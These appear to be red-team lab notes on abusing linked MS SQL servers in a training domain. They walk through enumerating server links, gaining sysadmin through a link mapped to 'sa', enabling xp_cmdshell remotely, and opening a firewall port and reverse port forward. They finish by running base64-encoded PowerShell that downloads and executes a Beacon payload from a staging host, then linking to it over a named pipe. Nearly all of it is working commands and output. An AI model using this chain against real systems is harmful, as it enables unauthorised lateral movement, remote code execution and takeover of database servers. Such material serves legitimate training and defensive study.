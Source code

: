 SQL Servers have a concept called "links", which allows a database instance to access data from an external source.  MS SQL supports multiple sources, including other MS SQL Servers.  These can also be practically anywhere - including other domains, forests or in the cloud.

We can discover any links that the current instance has:
`SELECT srvname, srvproduct, rpcout FROM master..sysservers;`

on `Attacker Desktop` on `WSL` execute the command above after connecting to the `MSSQL` server as `Bfarmer`
```sql
SQL> SELECT srvname, srvproduct, rpcout FROM master..sysservers;
srvname
           srvproduct
                          rpcout

--------------------------------------------------------------------------------------------------------------------------------   --------------------------------------------------------------------------------------------------------------------------------   ----------

SQL-2
           SQL Server
                               1

SQL-1.CYBERBOTIC.IO
           SQL Server
                               1

SQL>
```
This shows that SQL-2 has a link to SQL-1.  The SQLRecon `links` module could also be used.
```powershell
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:links
[*] Tasked beacon to run .NET program: SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:links
[+] host called home, sent: 307580 bytes
[+] received output:
[*] Additional SQL links on sql-2.dev.cyberbotic.io,1433
name | product | provider | data_source | 
------------------------------------------
SQL-1.CYBERBOTIC.IO | SQL Server | SQLNCLI | SQL-1.CYBERBOTIC.IO |
```
We can send SQL queries to linked servers using _OpenQuery_:
*The use of double and single quotes is important when using OpenQuery.*
```sql
SQL> SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername');



--------------------------------------------------------------------------------------------------------------------------------

SQL-1
```
Or with SQLRecon:
```powershell
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lquery /l:sql-1.cyberbotic.io /c:"select @@servername"
[*] Tasked beacon to run .NET program: SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lquery /l:sql-1.cyberbotic.io /c:"select @@servername"
[+] host called home, sent: 307678 bytes
[+] received output:
[*] Executing 'select @@servername' on sql-1.cyberbotic.io via sql-2.dev.cyberbotic.io,1433
column0 | 
----------
SQL-1 |
```
We can also check the xp_cmdshell status.
```powershell
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lquery /l:sql-1.cyberbotic.io /c:"select name,value from sys.configurations WHERE name = ''xp_cmdshell''"
[*] Tasked beacon to run .NET program: SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lquery /l:sql-1.cyberbotic.io /c:"select name,value from sys.configurations WHERE name = ''xp_cmdshell''"
[+] host called home, sent: 307780 bytes
[+] received output:
[*] Executing 'select name,value from sys.configurations WHERE name = ''xp_cmdshell''' on sql-1.cyberbotic.io via sql-2.dev.cyberbotic.io,1433
name | value | 
---------------
xp_cmdshell | 0 |
```
If xp_cmdshell is disabled, you won't be able to enable it by executing sp_configure via OpenQuery.  If RPC Out is enabled on the link (which is not the default configuration), then you can enable it using the following syntax:
```sql
EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [sql-1.cyberbotic.io]
EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [sql-1.cyberbotic.io]

SQL> EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [sql-1.cyberbotic.io]
[*] INFO(SQL-1): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [sql-1.cyberbotic.io]
[*] INFO(SQL-1): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL>
```
We can query SQL-1 to find out if it has any further links.
```powershell
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:llinks /l:sql-1.cyberbotic.io
[*] Tasked beacon to run .NET program: SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:llinks /l:sql-1.cyberbotic.io
[+] host called home, sent: 307628 bytes
[+] received output:
[*] Additional SQL links on sql-1.cyberbotic.io via sql-2.dev.cyberbotic.io,1433
[+] No results.
```
In this case it does not, but manually querying each server to find additional links can be cumbersome and time-consuming.  Instead, `Get-SQLServerLinkCrawl` can automatically crawl all available links and shows you a bit of information for each instance.
```powershell
beacon> powerpick Get-SQLServerLinkCrawl -Instance "sql-2.dev.cyberbotic.io,1433"
[*] Tasked beacon to run: Get-SQLServerLinkCrawl -Instance "sql-2.dev.cyberbotic.io,1433" (unmanaged)
[+] host called home, sent: 138082 bytes
[+] received output:


Version     : SQL Server 2019 
Instance    : SQL-2
CustomQuery : 
Sysadmin    : 0
Path        : {SQL-2}
User        : DEV\bfarmer
Links       : {SQL-1.CYBERBOTIC.IO}

Version     : SQL Server 2019 
Instance    : SQL-1
CustomQuery : 
Sysadmin    : 1
Path        : {SQL-2, SQL-1.CYBERBOTIC.IO}
User        : sa
Links       : 
```
This output shows that the link from SQL-2 to SQL-1 is configured with a local `sa` account, and that it has sysadmin privileges on the remote server.  Your level of privilege on the linked server will depend on how the link is configured.  It's worth noting that in this particular case, any user who has public read access to the SQL-2 database instance will inherit sysadmin rights on SQL-1.  We do not need to be sysadmin on SQL-2 first.

The `lwhoami` module in SQLRecon can show similar information.

```powershell
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lwhoami /l:sql-1.cyberbotic.io
[*] Tasked beacon to run .NET program: SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lwhoami /l:sql-1.cyberbotic.io
[+] host called home, sent: 307630 bytes
[+] received output:
[*] Determining user permissions on sql-1.cyberbotic.io via sql-2.dev.cyberbotic.io,1433
[*] Logged in as sa
[*] Mapped to the user dbo
[*] Roles:
 |-> User is a member of public role.
 |-> User is NOT a member of db_owner role.
 |-> User is NOT a member of db_accessadmin role.
 |-> User is NOT a member of db_securityadmin role.
 |-> User is NOT a member of db_ddladmin role.
 |-> User is NOT a member of db_backupoperator role.
 |-> User is NOT a member of db_datareader role.
 |-> User is NOT a member of db_datawriter role.
 |-> User is NOT a member of db_denydatareader role.
 |-> User is NOT a member of db_denydatawriter role.
 |-> User is a member of sysadmin role.
 |-> User is a member of setupadmin role.
 |-> User is a member of serveradmin role.
 |-> User is a member of securityadmin role.
 |-> User is a member of processadmin role.
 |-> User is a member of diskadmin role.
 |-> User is a member of dbcreator role.
 |-> User is a member of bulkadmin role.
```
To execute a Beacon on SQL-1, we can pretty much repeat the same steps as previously.  However, note that SQL-1 may only be able to talk to SQL-2 and not to WKSTN-2 or any other machine in the DEV domain.

```powershell
beacon> run hostname
sql-2

beacon> getuid
[*] You are DEV\mssql_svc (admin)

beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080

beacon> rportfwd 8080 127.0.0.1 80
[+] started reverse port forward on 8080 to 127.0.0.1:80
```
both are executed in `mssqlclient.py` session
You can use xp_cmdshell on a linked server via OpenQuery (note that you need to prepend a dummy query) for it to work.
```sql
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AcwBxAGwALQAyAC4AZABlAHYALgBjAHkAYgBlAHIAYgBvAHQAaQBjAC4AaQBvADoAOAAwADgAMAAvAGIAJwApAA==''')
```
Or you can use the "AT" syntax:
```sql
EXEC('xp_cmdshell ''powershell -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AcwBxAGwALQAyAC4AZABlAHYALgBjAHkAYgBlAHIAYgBvAHQAaQBjAC4AaQBvADoAOAAwADgAMAAvAGIAJwApAA==''') AT [sql-1.cyberbotic.io]

aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AcwBxAGwALQAyAC4AZABlAHYALgBjAHkAYgBlAHIAYgBvAHQAaQBjAC4AaQBvADoAOAAwADgAMAAvAGMAJwApAA=="
aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AcwBxAGwALQAyAC4AZABlAHYALgBjAHkAYgBlAHIAYgBvAHQAaQBjAC4AaQBvADoAOAAwADgAMAAvAGIAJwApAA=='
```
Once the payload has been executed, connect to the Beacon.
```powershell
beacon> link sql-1.cyberbotic.io TSVCPIPE-1337imherebitch
[*] Tasked to link to \\sql-1.cyberbotic.io\pipe\TSVCPIPE-1337imherebitch
[+] host called home, sent: 60 bytes
[+] established link to child beacon: 10.10.120.25
```
![[Pasted image 20231213205649.png]]
